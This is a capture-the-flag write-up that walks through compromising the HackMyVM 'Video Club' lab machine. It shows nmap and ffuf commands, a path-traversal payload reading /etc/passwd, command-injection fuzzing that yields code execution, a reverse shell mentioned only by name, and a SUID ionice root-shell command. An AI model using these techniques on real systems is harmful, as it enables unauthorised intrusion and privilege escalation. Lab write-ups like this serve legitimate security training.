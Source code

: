 ```yaml
---
layout: default
title : muzec - Video Club Writeup
---
```


### Scanning With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -p- -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Sat Oct  2 16:07:21 2021 as: nmap -sC -sV -p- -oA nmap 172.16.139.237
Nmap scan report for 172.16.139.237
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 96:9f:0e:b8:03:40:88:96:8b:b1:bf:58:ac:ff:d5:3a (RSA)
|   256 f2:38:ff:38:44:1b:7a:5d:3d:0c:bb:cd:c3:93:55:45 (ECDSA)
|_  256 35:c2:e8:90:61:0d:19:7b:01:f0:b5:2a:d1:c6:27:ad (ED25519)
3377/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MARGARITA VIDEO-CLUB
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 16:07:35 2021 -- 1 IP address (1 host up) scanned in 14.37 seconds
```

We have HTTP port running on a different port seems cool i guess let start our enumeration already.

![image](https://user-images.githubusercontent.com/69868171/135774150-060a8147-b2a2-488c-878d-08b3b85ce82a.png)

A smooth video club web-page let check the source page for some hint.

![image](https://user-images.githubusercontent.com/69868171/135774172-2782252f-1ce0-41a2-ad1b-f5c97f71d351.png)

Not that userfull to us let burst some directory.

![image](https://user-images.githubusercontent.com/69868171/135774235-139351ec-8118-440c-bb02-44930cf8dac8.png)

With dirbuster got some directory just some normal ones like  `robots.txt` and `videos` let check the robots.txt first.

![image](https://user-images.githubusercontent.com/69868171/135774277-75eae686-80d1-418a-adbe-81929d56bf24.png)

We found a secret txt directory let confirm it.

![image](https://user-images.githubusercontent.com/69868171/135774335-4989a888-e15b-457c-ad47-f401bde00805.png)

Seems cool and Happy Birthday to HackMyVm Btw now back to our file seems like a usernames or passwords maybe a list to brute force directory am not to sure but going through the list found some words interesting.

![image](https://user-images.githubusercontent.com/69868171/135774417-7e91dc07-c5ed-4999-adef-83cc7e938360.png)

Putting it together `exiftool and steghide` seems crazy i know right lol so i decided to check all the metadata of all the images and videos on the website.

![image](https://user-images.githubusercontent.com/69868171/135774519-79a1f934-5d57-4b91-aab7-4c5b6baf320f.png)

![image](https://user-images.githubusercontent.com/69868171/135774542-13b843e4-b386-4ff7-8366-6e7efc4f9b8a.png)


With time i was able to put up a list now let brute force directory with the new lists created.

![image](https://user-images.githubusercontent.com/69868171/135775149-ec8c2c1a-f08b-4700-bc64-6729f7aa0376.png)

Interesting seems the php directory seems empty if you are thinking what am thinking let brute force for parameter.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/videoclub]
└─$ ffuf -c -ic -r -u 'http://172.16.139.237:3377/c0ntr0l.php?FUZZ=../../../../../../../../../../../../../../etc/passwd' -w list.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.139.237:3377/c0ntr0l.php?FUZZ=../../../../../../../../../../../../../../etc/passwd
 :: Wordlist         : FUZZ: list.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

:: Progress: [48/48] :: Job [1/1] :: 14 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/videoclub]
```

`LFI` parameter brute forcing i got nothing now let try for `CMD` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/videoclub]
└─$ ffuf -c -ic -r -u 'http://172.16.139.237:3377/c0ntr0l.php?FUZZ=id' -w list.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.139.237:3377/c0ntr0l.php?FUZZ=id
 :: Wordlist         : FUZZ: list.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 0
________________________________________________

f1ynn                   [Status: 200, Size: 54, Words: 3, Lines: 2]
:: Progress: [47/47] :: Job [1/1] :: 45 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

Boom we got the parameter and we have RCE.

![image](https://user-images.githubusercontent.com/69868171/135775294-ad8bba21-b70c-4459-9fbf-e7fe1f23cf4f.png)

Now let get shell back to our terminal.

![image](https://user-images.githubusercontent.com/69868171/135775330-d0e4823d-3db4-4ad1-beae-f45156e5637b.png)

I use python3 one liner reverse shell payload checking back to my listener and we have shell.

![image](https://user-images.githubusercontent.com/69868171/135775391-dcb06373-35c7-483e-b0fb-342dd0e5f119.png)

Spawn a tty shell and we are cool.

![image](https://user-images.githubusercontent.com/69868171/135775464-63fee035-b527-4ee4-997c-c8fa8f02d6d3.png)

Going to the home directory of user `librarian` we have the user.txt flag now time to get root.

### Privilege Escalation

```
find / -perm -u=s -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/69868171/135775517-fdddafac-6ea9-46d4-8d66-7a7d11c0ed7d.png)

Enumerating for SUID and i found `/home/librarian/ionice` now let check gtfobins for exploit.

![image](https://user-images.githubusercontent.com/69868171/135775569-e7ce3260-59ac-458f-a26e-6d8646cd6753.png)

Command to get root  `/home/librarian/ionice /bin/sh -p`

![image](https://user-images.githubusercontent.com/69868171/135775607-e4523195-0a5c-469c-9094-47d54aa9b919.png)

Finding the root.txt flag `find / -name root.txt 2>/dev/null` .

![image](https://user-images.githubusercontent.com/69868171/135775689-6d258b9f-a546-437c-afb6-a8c92229e398.png)

And we are done box rooted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

